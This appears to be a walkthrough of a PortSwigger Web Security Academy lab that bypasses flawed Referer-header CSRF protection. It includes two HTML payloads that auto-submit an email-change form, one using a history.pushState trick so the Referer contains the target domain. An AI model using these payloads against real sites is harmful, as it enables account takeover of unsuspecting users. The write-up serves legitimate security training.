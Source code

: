 Title: CSRF with broken Referer validation
Level: Practitioner
Desc: This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter

# Walkthrough:
Standard request to change email - look at Referer header being present:
<img width="1029" height="453" alt="image" src="https://github.com/user-attachments/assets/73381657-1905-4c87-a865-2c62d915339d" />

Deleting Referer header is not an option:
<img width="1109" height="468" alt="image" src="https://github.com/user-attachments/assets/b66bf391-0ad1-4f9a-8391-593458073580" />

I changed referer header to something like that: `mydomain.com/?seems_legit=original_domain`. And the validation is built in that way, it accepts any Referer value if we have original site/domain anywhere in value of Referer.
<img width="1041" height="509" alt="image" src="https://github.com/user-attachments/assets/8fcd07c3-4b7f-4132-9da5-84529bb6e87c" />

Now, craft the exploit:
```
<form method="POST" action="https://0a470071042a1314800826bb000100c3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes23@normal-user.net">
</form>
<meta name="referrer" content="unsafe-url">
<script>
    document.forms[0].submit();
</script>
```
But I need to place this script on a domain: 
<img width="1248" height="216" alt="image" src="https://github.com/user-attachments/assets/2ff9fc6e-b91b-46d8-bd01-70e02130576b" />

```
<form method="POST" action="https://0a470071042a1314800826bb000100c3.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="tes223@normal-user.net">
</form>
<meta name="referrer" content="unsafe-url">
<script>
    history.pushState("", "", "/?0a470071042a1314800826bb000100c3.web-security-academy.net");
    document.forms[0].submit();
</script>
```

The most important part here is : `history.pushState("", "", "/?0a470071042a1314800826bb000100c3.web-security-academy.net");`

